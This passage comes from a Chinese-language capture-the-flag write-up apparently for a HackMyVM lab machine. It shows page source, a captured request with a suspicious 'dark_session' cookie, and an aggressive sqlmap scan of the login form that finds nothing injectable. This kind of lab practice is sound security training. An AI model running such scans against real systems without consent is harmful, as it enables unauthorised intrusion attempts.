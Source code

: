 ```html
        <h2>个人中心</h2>
        <p>欢迎访问您的个人主页，这里可以查看和管理您的账户信息</p>
        
            </div>
</body>
</html>
```

页面源码依然简洁。使用BurpSuite抓取HTTP请求，发现登录后的Cookie中包含一个名为 `dark_session` 的字段，其值经过了URL编码，末尾的 `%3D%3D` 暗示其可能是Base64编码。

```http
GET /profile.php HTTP/1.1
Host: dark.disguise.hmv
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: http://dark.disguise.hmv/login.php
Connection: keep-alive
Cookie: PHPSESSID=g31oqe3lpvnk3gd1obs5pmm4a0; dark_session=1mr9fHMuTh6J56IrZHP28w%3D%3D
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

这 `dark_session` 看起来有点机会，但目前尚不清楚其具体作用。

#### 5.2 SQL注入与XSS尝试

在进一步分析 `dark_session` 前，先尝试常规的Web漏洞测试。
使用`sqlmap`对登录表单 (login.php) 进行SQL注入检测。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ sqlmap -u "http://dark.disguise.hmv/login.php" --forms --batch --level=3 --risk=3
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.9.4#stable}
|_ -| . ["]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:42:55 /2025-05-15/

[23:42:55] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=e2744i2rksa...aqbikf4hhl'). Do you want to use those [Y/n] Y
[23:42:55] [INFO] searching for forms
[1/1] Form:
POST http://dark.disguise.hmv/login.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): username=&password=
do you want to fill blank fields with random values? [Y/n] Y
# ... (大量sqlmap探测过程输出) ...
[23:43:21] [ERROR] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent', skipping to the next target
[23:43:21] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/kali/.local/share/sqlmap/output/results-05152025_1142pm.csv'
```